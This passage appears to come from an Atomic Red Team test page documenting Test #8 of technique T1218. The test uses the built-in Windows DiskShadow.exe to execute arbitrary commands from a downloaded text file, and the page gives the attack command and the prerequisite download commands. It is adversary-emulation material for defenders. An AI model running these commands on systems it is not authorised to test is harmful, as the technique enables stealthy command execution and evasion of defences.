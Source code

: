 ```powershell
Install-Module -Name AtomicTestHarnesses -Scope CurrentUser -Force
```

<br/>
<br/>

## Atomic Test #8 - DiskShadow Command Execution

Emulates attack with a DiskShadow.exe (LOLBIN installed by default on Windows) being used to execute arbitrary commands Reference: https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/

**Supported Platforms:** Windows

**auto_generated_guid:** 0e1483ba-8f0c-425d-b8c6-42736e058eaa

#### Inputs:

| Name        | Description                        | Type | Default Value                                       |
| ----------- | ---------------------------------- | ---- | --------------------------------------------------- |
| txt_payload | txt to execute                     | path | PathToAtomicsFolder&#92;T1218&#92;src&#92;T1218.txt |
| dspath      | Default location of DiskShadow.exe | path | C:&#92;Windows&#92;System32&#92;diskshadow.exe      |

#### Attack Commands: Run with `powershell`!

```powershell
#{dspath} -S #{txt_payload}
```

#### Dependencies: Run with `powershell`!

##### Description: txt file must exist on disk at specified location (#{txt_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{txt_payload}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{txt_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/T1218.txt" -OutFile "#{txt_payload}"
```

##### Description: DiskShadow.exe must exist on disk at specified location (#{dspath})

##### Check Prereq Commands:

```powershell
if (Test-Path #{dspath}) {exit 0} else {exit 1}
```
